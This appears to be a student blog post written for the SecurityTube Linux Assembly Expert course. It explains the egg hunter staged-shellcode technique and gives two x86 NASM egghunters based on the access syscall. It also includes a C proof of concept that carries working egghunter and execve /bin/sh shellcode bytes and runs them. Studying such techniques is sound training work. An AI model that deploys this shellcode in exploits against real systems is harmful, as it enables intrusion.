



# Exercise 3

## Assignment #3

- Study about the Egg Hunter shellcode

- Create a working demo of the Egghunter

- Should be configurable for different payloads


---------------------------------------------------


## What is an EggHunter?

It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice, so . The technique is based on the system calls, given they can *validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*, using them to check if the memory is readable and later if the tag has been reached.


## EggHunter study
The two egghunters studied use the same syscall: access.




### Egghunter 1

```
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

It is tested with the execve shellcode as payload:




### Egghunter 2

```
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```

It is tested with the execve shellcode as payload:




### POC code

This is the code of *shellcode.c* for this exercise:


```
#include <stdio.h>
#include <string.h>
#define egg "\x90\x50\x90\x50"

unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```


## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879


---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433